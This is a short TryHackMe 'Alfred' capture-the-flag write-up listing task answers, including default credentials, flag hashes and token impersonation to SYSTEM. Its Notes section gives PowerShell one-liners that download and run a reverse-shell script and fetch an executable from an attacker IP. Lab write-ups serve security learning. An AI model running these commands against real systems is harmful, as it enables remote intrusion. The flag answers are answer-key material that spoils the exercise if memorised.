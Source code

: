 # TryHackMe Alfred

> Saikat Karmakar | AUG 17 : 2021

---

## Task 1

1. How many ports are open? (TCP only)
```
3
```
2. What is the username and password for the log in panel(in the format username:password)
```
admin:admin
```
3. What is the user.txt flag? 
```
79007a09481963edf2e1321abd9ae2a0
```

## Task 2

1. What is the final size of the exe payload that you generated?
```
73802
```

## Task 3

1. To check which tokens are available, enter the list_tokens -g. We can see that the BUILTIN\Administrators token is available. Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators token. What is the output when you run the getuid command?
```
NT AUTHORITY\SYSTEM
```
2. read the root.txt file at C:\Windows\System32\config
```
dff0f748678f280250f25a45b8046b4a
```

---

***Notes***
```bash
powershell iex (New-Object Net.WebClient).DownloadString('http://10.4.23.120:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.4.23.120 -Port 1234
```
```bash
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.4.23.120:8000/shell.exe','shell-name.exe')"
```


security.key
```
cb2ae36e1862a23b3adfd393282eae76f896f2efb0a4da79643e33afc616751e
```
